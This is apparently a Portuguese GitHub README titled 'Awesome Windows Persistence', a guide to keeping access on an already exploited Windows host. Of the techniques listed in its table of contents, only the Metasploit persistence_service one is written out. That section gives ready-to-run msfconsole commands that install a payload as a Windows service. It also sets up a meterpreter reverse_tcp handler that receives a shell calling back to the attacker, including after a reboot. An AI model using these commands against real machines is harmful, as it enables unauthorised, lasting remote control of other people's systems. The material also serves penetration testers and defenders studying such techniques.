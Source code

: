 # [Awesome Windows Persistence](https://github.com/Stuuxx/awesome-persistence)

**Técnicas e táticas para a manutenção de persistência em um alvo explorado.**

Estarei constantemente atualizando este repositório com novas técnicas!

## Sumário
*[Técnicas e Táticas](#tecnicas)
     *[Persistence Service](#persistence-service)
     *[Persistence Registry](#persistence-registry)
     *[Netcat](#persistence-netcat)
     *[RDP](#persistence-rdp)
     *[Schtasks](#schtasks)
     *[Schtasks-Log Events](#schtasks-log-events)
     *[WMIC](#persistence-wmic)
     *[Wmi-Persistence](#persistence-wmi)
     *[SharPersist](#sharpersist)

## Técnicas e Táticas
###Persistence Service

Já com o alvo explorado e com uma shell meterpreter:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;
 
Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**

```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
(persistence-service.jpg)

- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;

```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
(persistence-service2)

**Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.**

Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.
(persistence-service3)



## Ficou com alguma dúvida?

Siga-me nas redes sociais para acompanhar meus conteúdos relacionados a Cyber Security e Offensive Hacking ou para tirar dúvidas relacionadas aos artigos!
 - LinkedIn : [Eduardo Maragno](https://www.facebook.com/HackwithGithub)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux]()
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)
